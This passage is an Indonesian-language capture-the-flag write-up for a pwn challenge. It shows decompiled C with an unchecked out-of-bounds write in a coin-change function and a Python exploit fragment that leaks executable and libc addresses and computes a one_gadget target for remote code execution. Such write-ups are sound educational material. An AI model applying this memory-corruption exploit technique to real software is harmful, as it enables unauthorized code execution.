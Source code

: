 
calculate_ways:
```c
memset(param_2,0,(ulong)param_3);
*param_2 = 1;
printf("Insert desired value: ");
value = read_int();
i = 0;
while (i < param_4) {
    j = *(uint *)(param_1 + (ulong)i * 4);
    while (j <= value) {
        param_2[j] = param_2[j - *(int *)(param_1 + (ulong)i * 4)] + param_2[j];
        j = j + 1;
    }
    i = i + 1;
}
printf("We can change %d with %d ways\n",(ulong)value,(ulong)(uint)param_2[value]);
return;
```

Maksimal jumlah koin adalah 300, yaitu jumlah yang tepat ((1200)/4 == 300). Jadi tidak ada overflow pada bagian itu. Akan tetapi, yang menarik adalah fungsi _calculate\_ways_. Tidak terdapat pengecekan batas jadi kita dapat melakukan kalkulasi pada angka berapapun. Hasilnya akan disimpan di param_2(array yang isinya hasil) + (jumlah yang dicari), maka kita bisa menulis diluar batas array.

Dengan OOB ini, kita bisa mendapatkan leak area _executable_, libc, dan menulis nilai dari _return address_ fungsi _handler_.

### Leak
Pada soal ini, saya menggunakan [one_gadget](https://github.com/david942j/one_gadget) untuk mendapatkan RCE. Ternyata pada soal sebelumnya saya ada offset yang salah. Yaudahlah ¯\\\_(ツ)\_/¯.

Untuk mendapatkan leak area _executable_, saya cuma jalanin fungsi _calculate\_ways_ dua kali, pada offset 3006 dan 3007. Nilai itu adalah nilai dari _return address_. Karena seharusnya nilainya merupakan alamat di fungsi _main_, nilai tersebut merupakan nilai alamat di area _executable_.

Leak area _executable_ sebenarnya tidak terlalu penting jika ingin langsung lompat ke libc one_gadget, tapi saya dapatin aja. Leak libc dapat didapatkan dengan cara yang sama pada offset 3010 dan 3011.

```python
    compute(3011)
    p.recvuntil("with ")
    l = struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')

    compute(3010)
    p.recvuntil("with ")
    l += struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')
    l = int(l, 16)
    print hex(l)

    libc_base = l - 0x2409b
    one_gadget = libc_base + 0x50186


    compute(3007)
    p.recvuntil("with ")
    l = struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')

    compute(3006)
    p.recvuntil("with ")
    l += struct.pack("<i", int(p.recvuntil("ways")[:-4]))[::-1].encode('hex')
    l = int(l, 16)
    print hex(l)

    exec_leak = l
```